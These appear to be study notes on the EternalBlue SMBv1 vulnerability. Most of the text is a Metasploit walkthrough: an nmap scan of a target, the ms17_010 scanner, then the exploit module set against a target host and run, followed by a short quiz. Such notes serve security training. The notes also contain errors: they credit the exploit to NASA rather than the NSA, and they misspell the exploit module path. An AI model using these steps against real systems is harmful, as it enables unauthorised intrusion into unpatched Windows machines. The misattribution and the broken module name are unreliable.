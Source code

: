 
- Collection of vulnerabilities and exploits
- Developed by NASA
- Leaked by Shadow Brokers in 2017 
- Vulnerable Windows SMBv1 protocol
- WannaCry Ransomware utilized the vuln

Scan target with db_nmap in msfconsole
```
db_nmap -sS -sV -O <target_ip>
```

Search for eternal blue exploit
```
search type:auxiliary EternalBlue
```

Use auxiliary smb_ms17_010 module
```
use auxiliary/scanner/smb/smb_ms17_010
options
set RHOSTS <target_ip>
exploit
```

Search for exploit module
```
search type:exploit EternalBlue
```

Setup exploit module
```
use exploit/windows/smb/ms17_010_enternalblue
set RHOSTS <target_ip>
exploit
```
## Quiz

What version of SMB is vulnerable to the EternalBlue exploit?

	SMBv1